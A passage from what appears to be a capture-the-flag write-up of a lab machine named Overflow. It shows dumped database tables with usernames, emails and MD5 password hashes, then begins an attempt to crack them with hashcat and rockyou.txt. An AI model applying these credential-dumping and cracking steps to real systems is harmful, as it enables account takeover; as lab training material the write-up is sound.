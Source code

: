 ```
| 9  | admin    | 14:00:00  |
| 10 | admin    | 16:00:00  |
| 11 | admin    | 10:00:00  |
| 12 | admin    | 12:00:00  |
+----+----------+-----------+

```

Nothing interesting there.

`Overflow` has a single table, `users`, with another user and hash:

```

Database: Overflow
Table: users
[1 entry]
+----------------------------------+----------+
| password                         | username |
+----------------------------------+----------+
| c71d60439ed5590b3c5e99d95ed48165 | admin    |
+----------------------------------+----------+

```

`cmsmsdb` has a ton of tables, which makes sense for a real CMS. `cms_users` has two users:

```

Database: cmsmsdb
Table: cms_users
[2 entries]
+---------+--------------------+--------+----------------------------------+----------+-----------+------------+---------------------+--------------+---------------------+
| user_id | email              | active | password                         | username | last_name | first_name | create_date         | admin_access | modified_date       |
+---------+--------------------+--------+----------------------------------+----------+-----------+------------+---------------------+--------------+---------------------+
| 1       | admin@overflow.htb | 1      | c6c6b9310e0e6f3eb3ffeb2baff12fdd | admin    | <blank>   | <blank>    | 2021-05-24 21:18:35 | 1            | 2021-05-26 14:49:15 |
| 3       | <blank>            | 1      | e3d748d58b58657bfa4dffe2def0b1c7 | editor   | <blank>   | editor     | 2021-05-25 06:38:33 | 1            | 2021-05-26 04:13:58 |
+---------+--------------------+--------+----------------------------------+----------+-----------+------------+---------------------+--------------+---------------------+

```

### Crack Hashes

#### Initial Fail

I’ll try `hashcat` to break these hashes. All three are MD5s, but none crack with the `rockyou.txt` wordlist:

